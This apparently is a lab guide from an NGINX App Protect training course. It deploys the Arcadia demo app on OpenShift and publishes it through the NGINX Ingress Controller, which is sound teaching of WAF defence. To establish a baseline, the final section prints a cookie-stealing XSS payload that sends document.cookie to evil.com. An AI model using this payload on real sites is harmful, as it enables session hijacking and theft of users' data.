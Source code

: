 Access Arcadia app without NGINX App Protect to establish a baseline.
------------------------------------------------


Deploy the Arcadia Application into Kubernetes
#######################################################

   .. note::  The Arcadia Financial application is the same application we introduced in Module 1, but a different version with enhanced features which will be used for our security lab exercises.


   Before we can access the Arcadia application, we need to deploy it into our Kubernetes cluster. To do this, we'll use a single manifest file that contains the necessary resources, such as Kubernetes deployments for the four Docker containers and Kubernetes services for the four Docker containers.

   To get the YAML file, we'll use the following command in our terminal window:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml

   Once we have the YAML file, we can apply it to our Kubernetes cluster with the following command:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


   We can check that our Arcadia application is running by using the following command in our terminal window:

   .. code-block:: bash

      oc get services

   This will show us the services running in our Kubernetes cluster, including those related to the Arcadia application.

Export the NGINX Ingress Controller services
#######################################################

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller-nginx-ingress --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


Publish Arcadia app with NGINX Plus Ingress Controller
########################################################

   Now that we have our Arcadia application deployed in our Kubernetes cluster, we need to publish it using the NGINX Plus Ingress Controller. We'll do this by re-creating the NGINX Ingress Controller with Basic HTTP using the following command in our terminal window:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml

   This command creates a VirtualServer resource for our Arcadia application, which includes the host for the NGINX Ingress Controller and the upstreams for the different microservices. We can now access our Arcadia application externally using the NGINX Ingress Controller URL, which can be found by running the following command in our terminal window:

       .. code-block:: bash

         echo "NGINX Ingress Controller URL: http://$nginx_ingress/"

   Once we have the URL, we can access our Arcadia application by opening it in a web browser.


   You should be presented with the Main page, click on Login and enter the credentials as below.

   .. code-block:: 

      Username: matt
      Password: ilovef5

   When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


   .. image:: ./pictures/image10.png
      :align: center

   Congratulations!

   You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
Before we can protect our Arcadia application with NGINX App Protect, we need to check if it's currently vulnerable to Layer 7 attacks. We can do this by executing a simple XSS attack, which is a well-known OWASP top 10 attack.

To perform the XSS attack, we can launch the Firefox browser and append ``?a=<script>`` to the end of the application URL. If the request is allowed, then our application is vulnerable to XSS attacks.

.. image:: ./pictures/image11.png
   :align: center

We can further test this by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, which will attempt to steal our document cookie. If this request is also allowed, then a bad actor could potentially steal sensitive information from our application user

.. image:: ./pictures/image12.png
   :align: center

Since our application is currently vulnerable to Layer 7 attacks, we'll need to protect it using NGINX App Protect in the following Lab.

